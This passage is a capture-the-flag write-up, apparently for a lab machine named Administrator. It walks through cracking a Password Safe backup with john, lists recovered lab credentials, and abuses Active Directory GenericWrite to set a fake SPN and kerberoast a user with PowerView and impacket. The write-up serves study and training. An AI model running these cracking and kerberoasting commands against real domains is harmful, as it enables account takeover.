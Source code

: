 ![admin](assets/images/administrator/Pasted image 20250310095119.png)

#### Cracking the psafe3 file

When trying to open the database I was prompted for a password. We can try to crack this password by using john's built in function `pwsafe2john`. 

```
pwsafe2john Backup.psafe3 > backup.hash
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
tekieromucho     (Backu)  
```

After getting the database password I was able to open the database and read it with this [app](https://github.com/pwsafe/pwsafe). I know get the credentials of three new users. Most importantly I get Emily's credentials. To recap we have the following credentials:

```
Olivia:ichliebedich
michael:Password123!
Benjamin:Password123!
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

## Privilege Escalation

Since Emily was also a user on the box and this user also has the `PsRemote` right assigned we can login with `evil-winrm`. We already enumerated how to escalate our privileges we can clearly see the steps we can take to compromise the server with the following bloodhound graph.

![admin](assets/images/administrator/Pasted image 20250311000031.png)

#### Exploiting GenericWrite

To exploit Emily's `GenericWrite` privilege over the Ethan user we can do the following. Using `PowerView` we can create a fake **SPN** for Ethan. This service name can be anything we just need to create it. The reason for this is that now Ethan will become a kerberoastable account and we will be able to get his hash. The following command is used to write a fake **SPN**. 

```
Set-DomainObject -Identity ethan -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```

I tried **kerberoasting** from the Windows machine but I kept getting authentication errors probably due to Kerberos's [double hop problem](https://0xss0rz.gitbook.io/0xss0rz/pentest/internal-pentest/kerberos-double-hop-problem). This is why I run the attack through my Linux machine. 

```
impacket-GetUserSPNs -dc-ip 10.10.11.42 administrator.htb/emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb -request
Impacket v0.11.0 - Copyright 2023 Fortra

ServicePrincipalName  Name   MemberOf  PasswordLastSet             LastLogon                   Delegation 
--------------------  -----  --------  --------------------------  --------------------------  ----------
nonexistent/BLAHBLAH  ethan            2024-10-12 22:52:14.117811  2025-03-10 17:37:12.402693             



[-] CCache file is not found. Skipping...
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
